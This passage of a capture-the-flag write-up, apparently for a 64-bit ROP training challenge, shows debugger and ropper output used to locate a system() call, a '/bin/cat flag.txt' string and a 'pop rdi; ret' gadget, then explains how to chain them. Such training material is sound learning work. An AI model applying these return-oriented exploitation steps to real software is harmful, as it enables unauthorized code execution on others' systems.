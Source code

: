 Our next goal is to obtain our `"/bin/cat flag.txt"` <mark style="color:yellow;">offset</mark> and `system()` <mark style="color:yellow;">address</mark> found in `usefulFunction()`:

```
disass usefulFunction
0x000000000040074b <+9>:     call   0x400560 <system@plt>

search "/bin/cat flag.txt"
split           0x601060 '/bin/cat flag.txt'
```

```
system(): 0x000000000040074b
"/bin/cat flag.txt": 0x601060
```

<mark style="color:yellow;">So, this setup is going to require a little bit of a different setup since we are exploit a 64-bit binary now</mark>.

**Rather than placing values onto the stack, we will need to:**

* `POP` the `"/bin/cat flag.txt"` string from the stack into the `RDI` register
* <mark style="color:yellow;">So, we will need to find an instruction in the program that will</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`POP`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">an item from the stack into the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`RDI`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">register -- we can use</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`ropper`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">for this</mark>

#### Finding POP\_RDI Gadget with ropper:

```
ropper -f split --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret
```

**Granting us our ROP Gadget:**

```
0x00000000004007c3
```

This is the address that needs to go onto the stack first, followed by the `"/bin/cat flag.txt"` address.

**To iterate further:**

So, <mark style="color:yellow;">inject the ROP gadget followed by the string address</mark>. This will <mark style="color:yellow;">`POP`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`"/bin/cat flag.txt"`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">off the stack and into the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`RDI`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">register and execute the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`system()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">call</mark>.
